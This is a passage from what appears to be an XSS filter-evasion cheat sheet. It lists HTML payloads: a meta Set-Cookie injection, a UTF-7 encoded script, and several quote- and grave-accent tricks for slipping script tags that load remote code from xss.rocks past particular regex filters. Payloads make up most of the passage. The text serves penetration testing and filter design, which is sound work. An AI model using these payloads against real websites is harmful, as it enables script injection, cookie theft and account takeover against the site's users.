 ```html
<meta http-equiv="Set-Cookie" content="USERID=<SCRIPT>alert('XSS')</SCRIPT>" />
```

## UTF-7 Encoding

If the page that the XSS resides on doesn't provide a page charset header, or any browser that is set to UTF-7 encoding can be exploited with the following (Thanks to Roman Ivanov for this one). Click here for an example (you don't need the charset statement if the user's browser is set to auto-detect and there is no overriding content-types on the page in Internet Explorer and Netscape 8.1 in IE rendering engine mode). This does not work in any modern browser without changing the encoding type which is why it is marked as completely unsupported. Watchfire found this hole in Google's custom 404 script.:

```html
<head>
  <meta http-equiv="CONTENT-TYPE" content="text/html; charset=UTF-7" /></head
>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-`
```

## XSS Using HTML Quote Encapsulation

This was tested in IE, your mileage may vary. For performing XSS on sites that allow `<SCRIPT>` but don't allow `<SCRIPT SRC...` by way of a regex filter `/\<script\[^\>\]+src/i`:

```html
<script a=">" src="httx://xss.rocks/xss.js"></script>
```

For performing XSS on sites that allow `<SCRIPT>` but don't allow `\<script src...` by way of a regex filter `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` (this is an important one, because I've seen this regex in the wild):

```html
<script =">" src="httx://xss.rocks/xss.js"></script>
```

Another XSS to evade the same filter, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`:

```html
<SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

Yet another XSS to evade the same filter, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`. I know I said I wasn't goint to discuss mitigation techniques but the only thing I've seen work for this XSS example if you still want to allow `<SCRIPT>` tags but not remote script is a state machine (and of course there are other ways to get around this if they allow `<SCRIPT>` tags):

```html
<SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

And one last XSS attack to evade, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` using grave accents (again, doesn't work in Firefox):

```html
<script a="`">
  ` SRC="httx://xss.rocks/xss.js">
</script>
```
